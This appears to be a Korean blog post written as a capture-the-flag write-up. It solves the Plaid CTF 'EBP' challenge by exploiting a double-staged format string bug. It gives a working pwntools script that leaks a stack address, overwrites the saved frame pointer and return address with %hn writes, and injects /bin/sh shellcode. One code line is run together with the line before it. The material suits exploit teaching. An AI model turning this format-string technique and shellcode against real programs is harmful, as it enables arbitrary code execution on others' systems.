 ```yaml
---
layout: post
title: ! "Plaid CTF EBP Writeup"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - CTF
  - Plaid CTF
  - t4ngo
---
```


ctf 문제를 많이 풀어보지는 못했지만 plaid ctf에서 괜찮은 문제가 많은 것 같아 찾아보던 중 EBP라는 문제가 재밌어보여서 포스팅하게 되었습니다!

사실 이번 문제는 FSB(Format String Bug)에 관한 것인데 3년전 문제이기도 하고 요즘은 FSB가 많이 나오지 않는 추세로 알고 있어서 '이걸 아직도 해?' 라고 하시는 분들도 계실 수 있지만 그래도 과거가 있기에 현재가 있는 법! 저와 같이 EBP 문제를 풀며 FSB를 다시 한 번 복습해봅시다!

<!--more-->

먼저 Binary를 실행하면 아래와 같이 그냥 입력을 받고 그대로 출력해주는 동작이 끝입니다.

![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_01.PNG)  

그럼, 좀 더 자세히 알아보기 위해 IDA로 까봅시다!

![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_02.PNG)  

main에서는 buf에 1024byte만큼 입력을 받고 echo() 함수를 호출합니다.

![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_03.PNG)  

ehco() 함수는 make_response() 함수를 호출하고 puts()로 response를 출력합니다.

![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_04.PNG)  

make_response() 함수를 보면 snprintf()를 이용하여 buf의 값을 response에 복사하여 주는 것을 알 수 있습니다.

위 코드를 보고 make_response() 함수에 FSB가 존재한다는 것을 알아채셨겠죠? 하지만, 일반적인 FSB와는 달리 buf가 스택 영역이 아니기 때문에 스택을 마음대로 조작하기에는 어려운 부분이 있죠!

이를 해결하기 위해 Double Staged FSB라는 기법을 이용합니다. (위 내용은 <http://kblab.tistory.com/271>에 잘 정리가 되어 있어서 참고하시면 좋을 것 같습니다!)

다음으로 snprintf()가 호출되기 직전의 stack 상황을 살펴봅니다.

![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_05.PNG)  

ebp를 확인해보면 0xffffd5b8 위치하여 0xffffd5d8을 가리키고 있습니다. 여기서 당연하게도 0xffffd5d8은 이전 함수 프레임의 ebp를 뜻하겠죠? >_0

그런 다음, 0xffffd5d8 위치를 살펴보면 0xffffd5f8 들어있는 것을 알 수 있습니다. 즉, 이전 함수의 SFP는 0xffffd5f8이라는 사실을 알 수 있습니다. 그리고 이전 함수의 ret는 0xffffd5dc에 위치한 0x08048557이 되겠죠?

여기서 현재 함수의 EBP를 이용하여 이전 함수의 SFP 값을 0xffffd5dc로 바꾸어주면 됩니다.

정리하자면..

1. 현재 함수의 ebp를 이용하여 이전 함수의 SFP 변경
2. 변경된 SFP는 ret를 가리키고 있으므로 컨트롤 가능

그렇다면 이제 FSB를 이용하여 EBP 값이 얼마나 떨어져있는지 확인해 봅시다!

![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_06.PNG)  

4번째에 0xffffd5f8이 찍히긴 하지만 우리가 확인한 0xffffd5d8이 아닌 0xffffd5f8이 들어있습니다! 하지만, ret는 제대로 나오는 군요! 아마, 실제 메모리에 올라가면서 살짝 뒤로 밀린 것 같네요! O_O

그렇다면 다음과 같은 시나리오를 짤 수 있습니다!

1. %x%x%x%x으로 이전 함수의 SFP 확인
2. 알아낸 ebp+4를 통해 ret가 저장된 주소 계산
3. ret가 저장된 주소로 이전 함수의 SFP OverWrite (shellcode를 넣을 수 있는 곳 확보)
4. shellcode를 저장
5. shellcode가 저장된 곳으로 ret OverWrite

위와 같은 시나리오를 바탕으로 exploit 코드를 짜면 아래와 같습니다!

```
  1 from pwn import *
  2 import struct
  3 
  4 p = process("./ebp_a96f7231ab81e1b0d7fe24d660def25a.elf")
  5 
  6 p.send('%4$x\n')
  7 sleep(1)
  8 leak_addr = p.recv(1024)
  9 leak_addr = int(leak_addr,16)+4 & 0xffff
 10 
 11 payload = '%'+`leak_addr`+'c%4$hn\n'
 12 p.send(payload)
 13 
 14 p.recv(1024)shellcode = '\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
 16 payload = shellcode+'%'+`(0xa080-len(shellcode))`+'c%12$hn\n'
 17 p.send(payload)
 18 p.recv(1024)
 19 
 20 p.interactive()

```
![]({{ site.baseurl }}/images/t4ngo/plaidctf_ebp_wirteup/plaidctf_ebp_writeup_07.PNG)  

exploit 성공!!! 수고하셨습니당~~

